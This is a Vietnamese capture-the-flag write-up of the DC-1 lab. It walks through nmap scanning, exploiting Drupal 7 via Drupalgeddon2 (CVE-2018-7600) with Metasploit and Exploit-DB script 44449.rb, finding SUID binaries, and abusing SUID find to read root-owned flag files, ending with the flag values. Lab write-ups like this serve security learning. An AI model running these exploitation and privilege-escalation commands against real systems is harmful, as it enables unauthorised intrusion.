# DC-1





**Target:** Lab này yêu cầu chúng ta rà quét và khai thác lỗ hổng trên website chạy CMS Drupal (cụ thể là `Drupal 7.x`) để chiếm quyền thực thi lệnh, sau đó leo thang đặc quyền (Privilege Escalation) thông qua lỗi cấu hình SUID để đọc flag `local.txt` và `proof.txt`.

## 1. Recon & Vulnerability Assessment

Đầu tiên, chúng ta sẽ dùng lệnh nmap để rà quét xem port nào đang mở và dịch vụ tương ứng:

```bash
nmap -sC -sV <IP_Target>
```



Sau khi chạy xong, ta thấy được có 2 port đang mở là **22 (SSH)** và **80 (HTTP)**.

Truy cập trực tiếp vào địa chỉ IP qua trình duyệt, đập vào mắt là trang chủ với tiêu đề "Welcome to Drupal". Để chắc chắn, mình tiến hành View Source (`Ctrl + U`) mã nguồn của trang web.



> Xác nhận được hệ thống đang sử dụng CMS **Drupal phiên bản 7**.

Với thông tin về phiên bản Drupal 7, tra cứu nhanh trên mạng và các cơ sở dữ liệu lỗ hổng, mình xác định được mục tiêu có khả năng cao dính lỗ hổng bảo mật nghiêm trọng **CVE-2018-7600 (Drupalgeddon2)** cho phép thực thi mã từ xa (RCE) mà không cần xác thực.



## 2. Initial Access

Ban đầu, mình thử sử dụng module `exploit/unix/webapp/drupal_drupalgeddon2` có sẵn trên Metasploit. Tuy nhiên, dù cấu hình LHOST và RHOSTS chuẩn xác nhưng module báo lỗi (`Exploit completed but no session was created` và `Meterpreter session X is not valid and will be closed`), nguyên nhân có thể do kẹt kết nối hoặc payload không tương thích với môi trường mạng lab hiện tại.

Các bạn có thể thử thông qua các lệnh sau :
```bash
msfconsole
use exploit/unix/webapp/drupal_drupalgeddon2
set rhosts <IP_Target>
set lhost <Your_IP>
exploit
```



> Còn đây là kết quả khi dùng Metaspoilt của mình

Để giải quyết nhanh chóng, mình quyết định đổi chiến thuật, mình sẽ dùng Exploit-DB để tìm mã Drupalgeddon2.



> Mình test thử 3 cái thì mỗi cái `44449.rb` chạy được nên mình dùng file đó

### Khai thác (Exploit)

1. Tải mã khai thác `44449.rb` về máy Kali.
2. Chạy mã khai thác nhắm vào mục tiêu:

```bash
ruby 44449.rb http://<IP_Target>
```



> Mã khai thác chạy thành công và trả về một môi trường thực thi lệnh (pseudo-shell).

3. Kiểm tra thử bằng lệnh `id`:

```bash
id
```



> Kết quả trả về `uid=33(www-data)`. Chúng ta đã xâm nhập thành công!

Mình sẽ dùng python / bash để spawn stable shell nhưng không hiểu sao mình lại không thể spawn ra stable shell và nó bị đứng hình luôn.



## 3. Privilege Escalation

Vì không vào được stable shell để kiếm quyền leo lên `root` để đọc file nên mình sẽ dùng các lệnh bị cấu hình sai (có SUID bit) để có quyền root và đọc file.

1. Đầu tiên, mình đi tìm các công cụ hệ thống bị cấu hình sai đặc quyền (SUID).
```bash
find / -perm -u=s -type f 2>/dev/null
```



> Trong danh sách trả về, phát hiện công cụ `/usr/bin/find` được gán cờ SUID.

Mình tra ngay trên GTFOBins về lệnh find thì thấy có lệnh này để leo lên quyền root.

```bash
find . -exec /bin/sh -p \; -quit
```



> Option `-p` không hợp lệ và mình thử bỏ ra thì vẫn không hiển thị gì cả.

Thế nên mình sẽ tìm thẳng `local.txt` và `proof.txt` rồi sau đó dùng lệnh **find** để sử dụng quyền `root` để đọc cả 2 file.



## 4. Result

Mình sẽ chỉnh câu lệnh `find` để in thẳng ra nội dung trong 2 file đó luôn

```bash
find . -exec cat /home/local.txt \; -quit
find . -exec cat /root/proof.txt \; -quit
```



## 🚩 Flags :

>   **local.txt:** `93a3abb4064f16b2dce3cd73c006c4ab`
>   **proof.txt:** `1cd8df86651d184c9a55e7ba28ec21af`